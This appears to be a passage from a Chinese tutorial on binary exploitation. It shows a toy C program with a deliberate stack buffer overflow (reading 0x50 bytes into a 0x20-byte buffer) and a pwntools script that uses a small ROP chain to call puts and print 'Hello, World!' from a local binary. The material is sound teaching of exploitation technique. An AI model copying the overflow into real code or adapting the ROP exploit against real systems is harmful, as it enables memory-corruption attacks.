 #### 示例

已下面这个程序为例，目的是让程序输出`Hello, World!`：

```c
#include <stdio.h>

char *str = "Hello, World!";

void func1() { puts("func1 called"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

puts_addr = elf.sym["puts"]
str_hello_world = 0x00402004
pop_rdi_ret = 0x0000000000401203

payload = b"A" * 0x28
payload += p64(pop_rdi_ret)
payload += p64(str_hello_world)
payload += p64(puts_addr)

p.send(payload)

p.interactive()
```

栈帧变化的动画演示：

